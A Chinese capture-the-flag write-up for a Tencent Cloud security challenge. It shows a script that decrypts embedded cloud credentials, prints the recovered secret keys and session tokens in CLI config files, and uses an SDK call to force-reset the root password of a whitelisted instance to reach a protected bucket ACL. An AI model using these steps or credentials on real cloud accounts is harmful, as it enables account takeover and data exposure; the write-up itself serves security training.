

# 腾讯云安全挑战赛第一期wp-先知社区

> **来源**: https://xz.aliyun.com/news/18944  
> **文章ID**: 18944

---

## COS提权与利用

解密脚本

```
import base64
from typing import Optional

KEY = b"Lxnt1evByMdubwx9"  

DATA = [
    "f5c0IajdxV5eVjXjZL7eYXn/8TRigzvvoMHicHjAF+2fYjYNyxz7GaIlcemYMPY6sIftXGoliO4vGWY+3BUGsP/oIYMQP3QYC0oL/H7Wa20=",
    "zKgyUbTtAghnzfmaHNHYdWvzlcTYqJt9aiMcsXRZVx0DvlWf0Gj6gx+r7S0cDZB1T/GszB4Soj0cHkbPC6TFsDx4UfhOQF6UaQ+jyuH8CbKHhnJqvrM7XINfLw8Ciwj4Iw3ydAaU5s5VS1BsHuJqeCAlPGF0BaTv45iaL//SJObHe+grFNPKDhJsLfk4ZqmmHlt5MYIsja5I1pG756DWS/nwzQR/VpV/oXKucRrb7ZU=",
    "LcQJPx4C3QLMP6FCg7LZiA==",
    "M/5OfYlXv69rGbpWpS3StQ==",
    "EQvKwDX7dY92+pllBJ07+OXaSC5ebcc3U3XPpPtNYvM=",
    "MgkE9JTw5fUTSYvyQKBfFw==",
    "MgkE9JTw5fUTSYvyQKBfFw==",
    "y2iOBN6+m4LXl+5oKipU2qjfXHyCsLw0l+p/v3cSqPc=",
    "pXG83JbitgEqtVYeh84f0Q==",
    "0yrL8z5DCpVMMLIqsNgKWhakEvoQBz6JYZBii6gszbs=",
    "y2iOBN6+m4LXl+5oKipU2qjfXHyCsLw0l+p/v3cSqPc=",
    "y2iOBN6+m4LXl+5oKipU2qjfXHyCsLw0l+p/v3cSqPc=",
    "lvSA8w7VxVeGXKlGMKudyOXaSC5ebcc3U3XPpPtNYvM=",
    "yVwXQuzRFa/QrCfUbQmTNhbcG5zRqvZr/0xdeH40eaYelVLemG27zQ5lRugzqJ1b",
    "yVwXQuzRFa/QrCfUbQmTNqW/Xe/gznGzrFAZX4FtuFoelVLemG27zQ5lRugzqJ1b",
    "yVwXQuzRFa/QrCfUbQmTNgJcKv9GTUTyC6vkp1YbTGVysQYDBniEBjebTZ5oprEQ",
    "jiIi5TuBvaPaTOUxy5UeXw==",
    "5dpILl5txzdTdc+k+01i8w==",
    "Xwjo9538numKdVOf8Vh4cE78T18+6TwNy3pgqXy7tYb5yVtGSgxDhPNOnqo0lDCzBLGnWanr7bxhlsLmeVJIOpDBLi/DWjMg8hjHMwtt5RQsVhvyvSJ6Ps9g1P+pfAjx",
    "xH3OngU0AEUjMBlvI0gZrm11cDVQ9PhpXofmHTxRgvOAlKjgRHDmwP0qXIL/Dxkfx2qGTPxXDwaSyqTaQgytLg==",
    "Pzk6aAkFE1N1ctcijLbyEeXfrGGVQ0sDdZ3bKsM4yxILvkCjXEaUM8dVWffz6Sil1U2bSszksAuUE8X/fmrh1ozdiRHbs/gv1nu6T/tDHePygRV2tpSWVj8mjDLsNviWHDnUFrGSEa6TkGGRvdI2ANsVsXQg7FGQRRzdoHvnrP74vEjkezrkLNLuwCJhJ7Okz1CTpOR+zDVkIR8NGn+nBTLb0I05ZPrsNVNEW475JI28iLND80w1UPfaBzN8lE8WBKMFqQfGp7vvw/UJ9O6x4K0QvNM8CoO2jqPbV9XoeTAWArROvj+HuHshrr0qlEdE1QB1pC6xxQAS5F09AuMZ0JgBN6n7CYhI/feY76UGg1jGwWnXhyJ2043vFpLNji5Hwk0SSJ2pi5bsoTE1ipsm8TpppD/KND8Y4NPU5VnjWVcz7Ib0A1frMTsGKjQNBqPb7y2c0zu5nck3aAi4+iL36pkR4LaeYb/NXE89zJQhLUJzH+rjHHLrTo+DoPG5AtMG/H9/qtGxwD11Ox3qRQg1FpBFy+nSf348ZT0sRED14vzUKmcptDdeNord5Q/k5GI7cAl8DysyyWSgVet/LlljCzvDqr70wRhu31uv4AL27Vq9Y9ee9qOkvWY+QN4eBUK+mD/LJyKA3C8zuRPbeDT7KkXW+JpPd+sue1UisMskKA+MxIAsAxCrxXQfYLAKXSErP2uLlE3VRjb0lZXYewkEvOBcz/BVxR3lyyQdbHL3Uo5euY/yWySBUEmkgeeC7wtVjbcV8wDewfPx2YV5gW4jXacDR56XG591wdPzpZMMk3rdnBx4yFGX93g0kAlXvdoPnd2UFsdnavYd++X2rmTBdjOo/jGuH/gWJ7m5oLzsVC24W4eVS7RURyFmQ7FKb7JC3xdQVWYKzD/HgEdQ5dPcEzgT/fWkc+Iy31zfp2WLYco1FGSCONok8VchDlvRKjH5tgV4ZiWG2I2254XRB5nwgVy9EkZPW/CbCz78zQBXXtmmzZt4cDtGCFCPYKMMXUyNTD4RPFU6h6orOVg6H7KcQO8KhSE0LnleygySrue5E6IIWinPy1vRlDB9HVG+u0eWbNZLKxa1cOSyi3+eD9EunA049WzMQE3bZBsXVZh8aBN9+p9JJYnZbu0GdBewIJy22rS0iCTL9R40CW8LSVlm2XA2ozYLw3AzXXbS8EgK1zA5umnrPLSQtyQXh6tPT9lIfd4FPcLdfcJqXv69K2WX1rThIybol7A8Z7seaVJpFuJ3WtDhtyTuDkl/c1s1QRsqW41Bx87kC6NCiSTzlcbtQg==",
    "y2iOBN6+m4LXl+5oKipU2qjfXHyCsLw0l+p/v3cSqPc=",
    "x3lpg57ERvpVLrn83osro5kYWOcXD1WP+7hoGTXF95Zn1tPhRUZ8jl6it2l7P2dP5dpILl5txzdTdc+k+01i8w==",
    "nQe10a7TnkOr/Ppd++egqGi535SDz26TF3POeWJkfBvmaMo5aBJ0/+JogjC/WxHq",
    "R+koVdpCqrYoUtcwv9vXysqBKV8eNMz2HJHMRG2nsm0="
]


def _try_pycryptodome(raw: bytes) -> Optional[bytes]:
    try:
        from Crypto.Cipher import AES as _AES
        from Crypto.Util.Padding import unpad as _unpad
        cipher = _AES.new(KEY, _AES.MODE_ECB)
        dec = cipher.decrypt(raw)
        return _unpad(dec, 16)
    except Exception:
        return None

def _try_cryptography(raw: bytes) -> Optional[bytes]:
    try:
        from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
        cipher = Cipher(algorithms.AES(KEY), modes.ECB())
        decryptor = cipher.decryptor()
        dec = decryptor.update(raw) + decryptor.finalize()
        pad = dec[-1]
        if not (1 <= pad <= 16):
            raise ValueError("Bad padding")
        return dec[:-pad]
    except Exception:
        return None

def aes_ecb_pkcs5_decrypt(b64s: str) -> str:
    raw = base64.b64decode(b64s)
    dec = _try_pycryptodome(raw)
    if dec is None:
        dec = _try_cryptography(raw)
    if dec is None:
        raise RuntimeError("No AES backend available. Please install pycryptodome or cryptography.")
    return dec.decode("utf-8", errors="replace")

def looks_like_base64(s: str) -> bool:
    try:
        base64.b64decode(s, validate=True)
        return True
    except Exception:
        return False

def deobfuscate_xor_from_b64(s: str) -> str:
    data = base64.b64decode(s)
    data = bytes(b ^ 0x23 for b in data) 
    return data.decode("utf-8", errors="replace")


if __name__ == "__main__":
    for i, enc in enumerate(DATA):
        try:
            plain = aes_ecb_pkcs5_decrypt(enc)
            print(f"[{i:02d}] AES  -> {plain}")
            if looks_like_base64(plain):
                try:
                    deobf = deobfuscate_xor_from_b64(plain)
                    print(f"     XOR  -> {deobf}")
                except Exception as e:
                    print(f"     XOR  -> (failed: {e})")
        except Exception as e:
            print(f"[{i:02d}] ERROR: {e}")
```



下面 xor 后的三个结果分别是 ak，sk，session token，配置下 secretid 和 secretkey（开了几次环境，所以下面ak和sk可能会有变化）

```
┌──(root㉿lll)-[~]
└─# tccli configure
TencentCloud API secretId[None]: AKIDFG840k8ov09ZfQ6VdlfW-7Xpyyn0Uuak6bH_YS1CqANS0iZ995r00MAXrPhbEjVX
TencentCloud API secretKey[None]: /HihyTU6/YmEf8nD1ujPZi8DthZiI7b+9eZKS76jpAg=
Default region name[ap-guangzhou]: ap-guangzhou
Default output format[json]: json
```

token 需要手动去配置下

```
┌──(root㉿lll)-[~]
└─# cat .tccli/default.credential
{
  "secretId": "AKIDrGuURY3ThyLSMqDsEv1ecnGSsRP0m0krNNUWUgTvqr_IitXJvmdelZq8dx5XEtt3",
  "secretKey": "q9wsCzWhmEp3E/DvDhld/MMiuDo8yTn0shcpM7wBB1o=",
  "token": "ukN1JfAFyFEJbyw3cdc5TTdUzPBhknna27c03053a861748506b924176014da27MuPprHAIl3oB2kxiKigKZ3oP1nsJz1BPLiljMlfGOSIlVWWb9uk_wtk1LKFaWPcJUJ44PxuPnc_f3dRc26dfmvJnOxgtmzdfjeZMsyq0iUbwcO1Be0_UlwREY9GPw4hvvUqdUkv6SJyb-6yVNoDA0hXnUBUgEKFRCGAJ7bs5_8tq_gok265jvp7Nes1NJ_ZEedEff4Tzd5iXb6Ix1ZSyGe4Yy4TJEcs2ixHvSXsCpqNLNSCR1JDSOG66GrfAqO0bC-uvsVrwva49kxchxWa_NR9cRaSoSumJE-N2siJ2pUZhDuqvNBUujkbHKo6Tqtg7Z8-mLjmfxZOY3HhJZOoR73Drqhpt6ILX4IcEuoNyOEQ9lkjg10lW_OoCKQmv__Iey6_9IqWYfIVgOwChCYGzhD-TrEHmjGickxNXzG3qKEez8YTWc973G7UhBplySXuq0oziGVjfWOxQ3MqocCTsyONWyZHsIo9RdnsZNuzvMFyR6JBgc-2l1r2p5hNunusTalPtZWsi0nBj3Co0ZRDe_OQqv6Xkbpn4eVgiryKLKwH4iTid2nCTBY9kDj0tS76_U_QVlLIK3zagu5xF3RR37Xy3BE_29q-XkbX8S0nNM1wwUAVO6L_zWUMUwaWu2UkDab1OXi-RV98a8N6bs9WCtA"
}

┌──(root㉿lll)-[~]
└─# tccli sts GetCallerIdentity
{
    "Arn": "qcs::sts:100026992078:federated-user/100043488407",
    "AccountId": "100026992078",
    "UserId": "100043488407:challenge_01_q81gl6k4osny",
    "PrincipalId": "100043488407",
    "Type": "CAMUser",
    "RequestId": "ab10f09b-42a7-4dcf-a96a-a85a0feb54c7"
}
```

后续发现很多命令有问题，还是用 aws 吧

```
┌──(root㉿lll)-[~]
└─# cat .aws/config
[default]
region = ap-guangzhou
s3 =
    endpoint_url = https://cos.ap-guangzhou.myqcloud.com

┌──(root㉿lll)-[~]
└─# cat .aws/credentials
[default]
aws_access_key_id = AKIDrGuURY3ThyLSMqDsEv1ecnGSsRP0m0krNNUWUgTvqr_IitXJvmdelZq8dx5XEtt3
aws_secret_access_key = q9wsCzWhmEp3E/DvDhld/MMiuDo8yTn0shcpM7wBB1o=
aws_session_token = ukN1JfAFyFEJbyw3cdc5TTdUzPBhknna27c03053a861748506b924176014da27MuPprHAIl3oB2kxiKigKZ3oP1nsJz1BPLiljMlfGOSIlVWWb9uk_wtk1LKFaWPcJUJ44PxuPnc_f3dRc26dfmvJnOxgtmzdfjeZMsyq0iUbwcO1Be0_UlwREY9GPw4hvvUqdUkv6SJyb-6yVNoDA0hXnUBUgEKFRCGAJ7bs5_8tq_gok265jvp7Nes1NJ_ZEedEff4Tzd5iXb6Ix1ZSyGe4Yy4TJEcs2ixHvSXsCpqNLNSCR1JDSOG66GrfAqO0bC-uvsVrwva49kxchxWa_NR9cRaSoSumJE-N2siJ2pUZhDuqvNBUujkbHKo6Tqtg7Z8-mLjmfxZOY3HhJZOoR73Drqhpt6ILX4IcEuoNyOEQ9lkjg10lW_OoCKQmv__Iey6_9IqWYfIVgOwChCYGzhD-TrEHmjGickxNXzG3qKEez8YTWc973G7UhBplySXuq0oziGVjfWOxQ3MqocCTsyONWyZHsIo9RdnsZNuzvMFyR6JBgc-2l1r2p5hNunusTalPtZWsi0nBj3Co0ZRDe_OQqv6Xkbpn4eVgiryKLKwH4iTid2nCTBY9kDj0tS76_U_QVlLIK3zagu5xF3RR37Xy3BE_29q-XkbX8S0nNM1wwUAVO6L_zWUMUwaWu2UkDab1OXi-RV98a8N6bs9WCtA
```

先看下当前用户，这里报错是因为腾讯云 STS API 不是 S3 协议兼容的，而是走的 TC3-HMAC-SHA256 签名体系

```
┌──(root㉿lll)-[~]
└─# aws --endpoint-url https://sts.tencentcloudapi.com sts get-caller-identity

Unable to parse response (not well-formed (invalid token): line 1, column 0), invalid XML received. Further retries may succeed:
b'{"Response":{"Error":{"Code":"MissingParameter","Message":"The request header is missing a required common parameter `X-TC-Action`."},"RequestId":"6d5608bf-1a85-4a9c-8363-6395952d4191"}}'
```

可以用 tccli 看

```
┌──(root㉿lll)-[~]
└─# tccli sts GetCallerIdentity
{
    "Arn": "qcs::sts:100026992078:federated-user/100043488407",
    "AccountId": "100026992078",
    "UserId": "100043488407:challenge_01_xkeb6gd9n2ee",
    "PrincipalId": "100043488407",
    "Type": "CAMUser",
    "RequestId": "158c4139-4eeb-4c17-948a-ab394bd9b14f"
}
```

拿到 bucket 名字 （这个字段是根据 py 脚本回显来判断的）


看下该 bucket 下的所有 object，权限不够

```
┌──(root㉿lll)-[~]
└─# aws --endpoint-url https://xkeb6gd9n2ee-1313380398.cos.ap-guangzhou.myqcloud.com s3 ls

An error occurred (AccessDenied) when calling the ListBuckets operation: Access Denied.
```

看下该 bucket 的策略，COS 不支持 path-style 访问方式，必须用 virtual-hosted style，改下配置文件

```
┌──(root㉿lll)-[~]
└─# cat .aws/config
[default]
region = ap-guangzhou
s3 =
    addressing_style = virtual
    
┌──(root㉿lll)-[~]
└─# aws s3api get-bucket-policy --bucket 21cf8bc7bq56-1313380398 --endpoint-url http://cos.ap-guangzhou.myqcloud.com  --output text | python3 -m json.tool
{
    "Statement": [
        {
            "Action": [
                "name/cos:PutBucketACL"
            ],
            "Condition": {
                "ip_not_equal": {
                    "qcs:ip": [
                        "43.138.212.54",
                        "172.16.0.22"
                    ]
                }
            },
            "Effect": "Deny",
            "Principal": {
                "qcs": [
                    "qcs::cam::uin/100026992078:uin/100043488407"
                ]
            },
            "Resource": [
                "qcs::cos:ap-guangzhou:uid/1313380398:21cf8bc7bq56-1313380398/*"
            ],
            "Sid": "costs-1757861762000000978297-46861-45"
        }
    ],
    "version": "2.0"
}
```

有 PutBucketACL 权限，但限制了 ip，试了下 tccli cam 所有指令，有三个有权限，但都没用，aws s3api 也试了下，除了 get-bucket-policy 都不行

查看当前 STS 权限范围内的云主机实例列表

```
┌──(root㉿lll)-[~]
└─# tccli cvm DescribeInstances
{
    "TotalCount": 4,
    "InstanceSet": [
        {
            "Placement": {
                "Zone": "ap-guangzhou-6",
                "ProjectId": 0,
                "HostIds": null,
                "HostId": null
            },
            "InstanceId": "ins-hc0ktysk",
            "InstanceType": "S5.SMALL2",
            "CPU": 1,
            "Memory": 2,
            "RestrictState": "NORMAL",
            "InstanceName": "未命名",
            "InstanceChargeType": "POSTPAID_BY_HOUR",
            "SystemDisk": {
                "DiskType": "CLOUD_PREMIUM",
                "DiskId": "disk-qisb5xd4",
                "DiskSize": 20,
                "CdcId": null,
                "DiskName": null
            },
            "DataDisks": [],
            "PrivateIpAddresses": [
                "172.16.0.22"
            ],
            "PublicIpAddresses": [
                "43.138.212.54"
            ],
            "InternetAccessible": {
                "InternetChargeType": "TRAFFIC_POSTPAID_BY_HOUR",
                "InternetMaxBandwidthOut": 10,
                "PublicIpAssigned": null,
                "BandwidthPackageId": null,
                "InternetServiceProvider": null,
                "IPv4AddressType": null,
                "IPv6AddressType": null,
                "AntiDDoSPackageId": null
            },
            "VirtualPrivateCloud": {
                "VpcId": "vpc-7ub7effn",
                "SubnetId": "subnet-3do61d96",
                "AsVpcGateway": false,
                "PrivateIpAddresses": null,
                "Ipv6AddressCount": null
            },
            "ImageId": "img-541bm08j",
            "RenewFlag": null,
            "CreatedTime": "2025-09-14T14:56:00Z",
            "ExpiredTime": null,
            "OsName": "Debian 12.8 64位",
            "SecurityGroupIds": [
                "sg-3zaeh3e3"
            ],
            "LoginSettings": {
                "Password": null,
                "KeyIds": null,
                "KeepImageLogin": null
            },
            "InstanceState": "RUNNING",
            "Tags": [],
            "StopChargingMode": "NOT_APPLICABLE",
            "Uuid": "9d73e6a3-598d-4111-896f-ff1c294cddb1",
            "LatestOperation": null,
            "LatestOperationState": null,
            "LatestOperationRequestId": null,
            "DisasterRecoverGroupId": "",
            "IPv6Addresses": null,
            "CamRoleName": "",
            "HpcClusterId": "",
            "RdmaIpAddresses": null,
            "DedicatedClusterId": "",
            "IsolatedSource": "NOTISOLATED",
            "GPUInfo": null,
            "LicenseType": "TencentCloud",
            "DisableApiTermination": false,
            "DefaultLoginUser": "root",
            "DefaultLoginPort": 22,
            "LatestOperationErrorMsg": null,
            "PublicIPv6Addresses": null
        },
        {
            "Placement": {
                "Zone": "ap-guangzhou-6",
                "ProjectId": 0,
                "HostIds": null,
                "HostId": null
            },
            "InstanceId": "ins-kqxiiir0",
            "InstanceType": "S5.SMALL2",
            "CPU": 1,
            "Memory": 2,
            "RestrictState": "NORMAL",
            "InstanceName": "未命名",
            "InstanceChargeType": "POSTPAID_BY_HOUR",
            "SystemDisk": {
                "DiskType": "CLOUD_PREMIUM",
                "DiskId": "disk-qeucl7za",
                "DiskSize": 20,
                "CdcId": null,
                "DiskName": null
            },
            "DataDisks": [],
            "PrivateIpAddresses": [
                "172.16.0.99"
            ],
            "PublicIpAddresses": [
                "119.29.168.151"
            ],
            "InternetAccessible": {
                "InternetChargeType": "TRAFFIC_POSTPAID_BY_HOUR",
                "InternetMaxBandwidthOut": 10,
                "PublicIpAssigned": null,
                "BandwidthPackageId": null,
                "InternetServiceProvider": null,
                "IPv4AddressType": null,
                "IPv6AddressType": null,
                "AntiDDoSPackageId": null
            },
            "VirtualPrivateCloud": {
                "VpcId": "vpc-7ub7effn",
                "SubnetId": "subnet-3do61d96",
                "AsVpcGateway": false,
                "PrivateIpAddresses": null,
                "Ipv6AddressCount": null
            },
            "ImageId": "img-541bm08j",
            "RenewFlag": null,
            "CreatedTime": "2025-09-14T14:34:43Z",
            "ExpiredTime": null,
            "OsName": "Debian 12.8 64位",
            "SecurityGroupIds": [
                "sg-3zaeh3e3"
            ],
            "LoginSettings": {
                "Password": null,
                "KeyIds": null,
                "KeepImageLogin": null
            },
            "InstanceState": "RUNNING",
            "Tags": [],
            "StopChargingMode": "NOT_APPLICABLE",
            "Uuid": "05451a3a-6e84-469a-909e-9bead1bb8a51",
            "LatestOperation": "ResetInstancesPassword",
            "LatestOperationState": "SUCCESS",
            "LatestOperationRequestId": "4c01935c-b1ee-42b2-8a86-e446772c1bf4",
            "DisasterRecoverGroupId": "",
            "IPv6Addresses": null,
            "CamRoleName": "",
            "HpcClusterId": "",
            "RdmaIpAddresses": null,
            "DedicatedClusterId": "",
            "IsolatedSource": "NOTISOLATED",
            "GPUInfo": null,
            "LicenseType": "TencentCloud",
            "DisableApiTermination": false,
            "DefaultLoginUser": "root",
            "DefaultLoginPort": 22,
            "LatestOperationErrorMsg": null,
            "PublicIPv6Addresses": null
        },
        {
            "Placement": {
                "Zone": "ap-guangzhou-6",
                "ProjectId": 0,
                "HostIds": null,
                "HostId": null
            },
            "InstanceId": "ins-4boooefe",
            "InstanceType": "S5.SMALL2",
            "CPU": 1,
            "Memory": 2,
            "RestrictState": "NORMAL",
            "InstanceName": "未命名",
            "InstanceChargeType": "POSTPAID_BY_HOUR",
            "SystemDisk": {
                "DiskType": "CLOUD_PREMIUM",
                "DiskId": "disk-gqbh7b60",
                "DiskSize": 20,
                "CdcId": null,
                "DiskName": null
            },
            "DataDisks": [],
            "PrivateIpAddresses": [
                "172.16.0.68"
            ],
            "PublicIpAddresses": [
                "114.132.230.48"
            ],
            "InternetAccessible": {
                "InternetChargeType": "TRAFFIC_POSTPAID_BY_HOUR",
                "InternetMaxBandwidthOut": 10,
                "PublicIpAssigned": null,
                "BandwidthPackageId": null,
                "InternetServiceProvider": null,
                "IPv4AddressType": null,
                "IPv6AddressType": null,
                "AntiDDoSPackageId": null
            },
            "VirtualPrivateCloud": {
                "VpcId": "vpc-7ub7effn",
                "SubnetId": "subnet-3do61d96",
                "AsVpcGateway": false,
                "PrivateIpAddresses": null,
                "Ipv6AddressCount": null
            },
            "ImageId": "img-541bm08j",
            "RenewFlag": null,
            "CreatedTime": "2025-09-14T14:30:50Z",
            "ExpiredTime": null,
            "OsName": "Debian 12.8 64位",
            "SecurityGroupIds": [
                "sg-3zaeh3e3"
            ],
            "LoginSettings": {
                "Password": null,
                "KeyIds": null,
                "KeepImageLogin": null
            },
            "InstanceState": "RUNNING",
            "Tags": [],
            "StopChargingMode": "NOT_APPLICABLE",
            "Uuid": "d94f308e-3011-41bd-96fb-05622f824a19",
            "LatestOperation": null,
            "LatestOperationState": null,
            "LatestOperationRequestId": null,
            "DisasterRecoverGroupId": "",
            "IPv6Addresses": null,
            "CamRoleName": "",
            "HpcClusterId": "",
            "RdmaIpAddresses": null,
            "DedicatedClusterId": "",
            "IsolatedSource": "NOTISOLATED",
            "GPUInfo": null,
            "LicenseType": "TencentCloud",
            "DisableApiTermination": false,
            "DefaultLoginUser": "root",
            "DefaultLoginPort": 22,
            "LatestOperationErrorMsg": null,
            "PublicIPv6Addresses": null
        },
        {
            "Placement": {
                "Zone": "ap-guangzhou-6",
                "ProjectId": 0,
                "HostIds": null,
                "HostId": null
            },
            "InstanceId": "ins-qo7kixfu",
            "InstanceType": "S5.SMALL2",
            "CPU": 1,
            "Memory": 2,
            "RestrictState": "NORMAL",
            "InstanceName": "未命名",
            "InstanceChargeType": "POSTPAID_BY_HOUR",
            "SystemDisk": {
                "DiskType": "CLOUD_PREMIUM",
                "DiskId": "disk-4rr27ivi",
                "DiskSize": 20,
                "CdcId": null,
                "DiskName": null
            },
            "DataDisks": [],
            "PrivateIpAddresses": [
                "172.16.0.49"
            ],
            "PublicIpAddresses": [
                "119.29.246.244"
            ],
            "InternetAccessible": {
                "InternetChargeType": "TRAFFIC_POSTPAID_BY_HOUR",
                "InternetMaxBandwidthOut": 10,
                "PublicIpAssigned": null,
                "BandwidthPackageId": null,
                "InternetServiceProvider": null,
                "IPv4AddressType": null,
                "IPv6AddressType": null,
                "AntiDDoSPackageId": null
            },
            "VirtualPrivateCloud": {
                "VpcId": "vpc-7ub7effn",
                "SubnetId": "subnet-3do61d96",
                "AsVpcGateway": false,
                "PrivateIpAddresses": null,
                "Ipv6AddressCount": null
            },
            "ImageId": "img-541bm08j",
            "RenewFlag": null,
            "CreatedTime": "2025-09-14T14:31:13Z",
            "ExpiredTime": null,
            "OsName": "Debian 12.8 64位",
            "SecurityGroupIds": [
                "sg-3zaeh3e3"
            ],
            "LoginSettings": {
                "Password": null,
                "KeyIds": null,
                "KeepImageLogin": null
            },
            "InstanceState": "RUNNING",
            "Tags": [],
            "StopChargingMode": "NOT_APPLICABLE",
            "Uuid": "84802232-964e-435f-9cbf-2829954f95c7",
            "LatestOperation": "ResetInstancesPassword",
            "LatestOperationState": "SUCCESS",
            "LatestOperationRequestId": "a0b1c9c8-8edf-41cf-b42e-39aeeb5b5def",
            "DisasterRecoverGroupId": "",
            "IPv6Addresses": null,
            "CamRoleName": "",
            "HpcClusterId": "",
            "RdmaIpAddresses": null,
            "DedicatedClusterId": "",
            "IsolatedSource": "NOTISOLATED",
            "GPUInfo": null,
            "LicenseType": "TencentCloud",
            "DisableApiTermination": false,
            "DefaultLoginUser": "root",
            "DefaultLoginPort": 22,
            "LatestOperationErrorMsg": null,
            "PublicIPv6Addresses": null
        }
    ],
    "RequestId": "0d773374-122d-4d26-aa78-8c53de72923f"
}
```

第一台机子的 ip 刚好是满足条件的，注意到其相关配置

```
"LoginSettings": {
    "Password": null,
    "KeyIds": null,
}
......
"DefaultLoginUser": "root"
```

说明这台机子是没有设密码且登录名是 root，这里注意目标实例在创建时没有设置密码且没有绑定 SSH 密钥，我们这里可以把密码重置

```
┌──(root㉿lll)-[~]
└─# tccli cvm StopInstances --InstanceIds '["ins-hc0ktysk"]'
usage: tccli [options] <command> <subcommand> [<subcommand> ...] [parameters]
To tccli help text, you can run:

  tccli help
  tccli configure help
  tccli service[cvm] help
  tccli service[cvm] action[RunInstances] help

[TencentCloudSDKException] code:UnauthorizedOperation message:[request id:7bdd8c92-ab41-4e10-80e5-6b928a207420]you are not authorized to perform operation (cvm:StopInstances)
resource (qcs:id/0:cvm:ap-guangzhou:uin/100026992078:instance/ins-hc0ktysk) has no permission
 requestId:7bdd8c92-ab41-4e10-80e5-6b928a207420
```

必须停止才能重置密码，但是这没权限停止，到这其实就不知道咋办了，后续看了狼组的 wp ，发现可以用腾讯云的 python sdk 来强制修改密码的。参考：<https://mp.weixin.qq.com/s?__biz=MzIyMjkzMzY4Ng==&mid=2247511178&idx=1&sn=8d4d1ba961a2aee497a712ce2a82ff4c&chksm=e934b59ca1ccc328c9f64b2ece0b1fa719efb5f2e0f0561c06e7df3fc3922cca7e27ead9d73d&mpshare=1&scene=23&srcid=0919iN7MiVZCa0PkTOwoXQMP&sharer_shareinfo=1b3be1b1bf770ffeae88c43a168d98b6&sharer_shareinfo_first=1b3be1b1bf770ffeae88c43a168d98b6#rd>

```
# -*- coding: utf-8 -*-
import os
import json

from tencentcloud.common.common_client import CommonClient
from tencentcloud.common import credential
from tencentcloud.common.exception.tencent_cloud_sdk_exception import TencentCloudSDKException
from tencentcloud.common.profile.client_profile import ClientProfile
from tencentcloud.common.profile.http_profile import HttpProfile

try:
    cred = credential.Credential("AKIDzW8kWxxxxazBCFZun0u_uooqap", "CzClytxxxxx=", "cIVuxxxxxxxxxxxxxEt7a52ESm8Rwgs3mHoHbJuuCH7DcBReqEEU_JgVHDUlLj1T68t_WRN20xcWb37sl7iRAFUgAseZ0HuRezPk2QNIq1F1mHh-xqh94NTWr15QF-L4HPu-h_GJGGexQGED7hvnQ59np2jiCsgMv5-_QAwJgMgrXQ44ztP2ZgUOqYYgao4eo5ABTKFMjdGXHK7mzHEfv5hqVnV5BNcR3aayAHqFgFW8pTNC71EVUx_cdukepaH0x_xNEb4XkvHKteVjWVXCI8BE8Jl5Qyr1HNO9x5vZx50yYXO0ZlxRXCPnPdtL9mvwK_hj2iU4TE_X4nwsQsdPdU_t-XdarmveUY77RPjrBD9giapUaXYuMrsjf1oILTM2MraAOmm6xk6PKumEUMiFcYpML0buizj6i-7LeyO5e5FgGuvygTDBcFS95jEyXdpfT2LS1I1CO0uvVm8I4ZG-ce3rzFY1oL6x11UO4vxBRTeDPl-KatdARcLK65SPLdr_4hmiULHDl4rMjrGv35TRdBJ0NvqamVwXo4GhHdl2yC7nP-dFfrQabusakzROhXpFNZMAAEeMOpw96gRDk8mXPqhhW_sYQAdcVqA")
    httpProfile = HttpProfile()
    httpProfile.endpoint = "cvm.tencentcloudapi.com"
    clientProfile = ClientProfile()
    clientProfile.httpProfile = httpProfile

    params = "{"InstanceIds":["ins-8xxxxx"],"Password":"Aa112211.","UserName":"root","ForceStop":true}"
    common_client = CommonClient("cvm", "2017-03-12", cred, "ap-guangzhou", profile=clientProfile)
    print(common_client.call_json("ResetInstancesPassword", json.loads(params)))
except TencentCloudSDKException as err:
    print(err)
```

最后 putbucketacl 修改下 acl 策略即可（比赛结束没环境了，后续就 put 个 acl 上去就好了，应该没什么需要注意的）
